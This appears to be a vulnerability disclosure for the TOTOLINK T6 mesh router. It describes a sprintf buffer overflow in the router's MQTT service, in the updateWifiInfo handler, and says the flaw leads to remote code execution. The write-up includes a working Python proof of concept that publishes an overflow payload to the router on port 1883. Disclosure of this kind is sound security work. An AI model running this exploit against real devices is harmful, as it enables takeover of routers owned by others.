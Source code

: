 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `updateWifiInfo`. The `v9` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.

![](7/1.png)

![](7/2.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](7/3.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 0x7e + b"\x37\x33\x33\x13"

mqtt_data = b'''
{
"newMd5":"1",
"serverIp":"%s"
}
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/updateWifiInfo", mqtt_data)
```




